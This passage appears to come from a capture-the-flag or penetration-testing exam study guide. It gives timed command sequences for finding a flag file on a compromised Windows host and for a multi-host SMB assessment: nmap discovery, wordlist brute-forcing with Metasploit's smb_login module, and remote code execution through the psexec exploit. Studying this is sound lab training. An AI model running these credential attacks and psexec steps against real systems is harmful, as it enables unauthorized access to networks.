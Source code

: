 **How to Approach:**
```bash
# Step 1: Establish system shell (1 minute)
shell
cd /

# Step 2: Search for flag systematically (3 minutes)
dir
type flag.txt                    # Check root directory
cd C:\Users\Administrator\Desktop
dir *.txt                       # Check user desktop
cd C:\
dir /s flag*.txt               # Recursive search if needed

# Step 3: Capture and document flag (2 minutes)
type flag.txt
# Document flag value for submission

# Step 4: Gather additional intelligence (1 minute)  
systeminfo
net user
# Additional system information for reporting
```

#### **Scenario 3: Multi-Host SMB Assessment**
**Given:** Network range with multiple Windows systems
**Your Job:** Identify systems with weak SMB credentials
**Time Limit:** 10-15 minutes

**How to Approach:**
```bash
# Step 1: Network discovery (3 minutes)
nmap -p445 192.168.1.0/24
# Identify live hosts with SMB

# Step 2: Bulk credential testing (5 minutes)
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.100-120
set USER_FILE /usr/share/wordlists/common_users.txt
set PASS_FILE /usr/share/wordlists/passwords.txt
set THREADS 5
set VERBOSE false
exploit

# Step 3: Target high-value systems (4 minutes)
# Focus on systems with administrative access
use exploit/windows/smb/psexec
set RHOSTS [high_value_target]
set SMBUser Administrator
set SMBPass [discovered_password]
exploit

# Step 4: Document findings (3 minutes)
# Record all successful credential combinations
# Note system access levels achieved
```
